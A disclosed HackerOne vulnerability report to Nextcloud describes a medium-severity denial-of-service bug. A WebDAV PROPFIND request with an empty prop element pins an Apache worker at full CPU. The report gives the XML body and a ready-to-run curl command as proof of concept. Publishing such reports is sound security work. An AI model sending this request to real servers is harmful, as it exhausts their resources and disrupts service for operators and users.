 # WebDAV Empty Property search leads to full CPU usage

## Report Details
- **Report ID**: 255822
- **URL**: https://hackerone.com/reports/255822
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-08-02T14:53:24.064Z
- **Disclosed**: 2020-03-01T14:08:49.772Z

## Reporter
- **Username**: julzify
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Tested with the following versions:
 - [owncloud:10.0](https://hub.docker.com/_/owncloud/)
 - [nextcloud:12.0](https://hub.docker.com/_/nextcloud/)

with mariadb in place.

A `PROFIND nextcloud/remote.php/webdav/` with

```xml
<?xml version="1.0"?>
<a:propfind xmlns:a="DAV:">
<a:prop></a:prop>
</a:propfind>
```
as body causes full CPU utilization of one Apache worker process.

in curl form:
```
curl -i --user testuser:testpass -X PROPFIND -d '<?xml version="1.0"?><a:propfind xmlns:a="DAV:"><a:prop></a:prop></a:propfind>' http://nextcloud/remote.php/webdav
```


## Attachments
No attachments
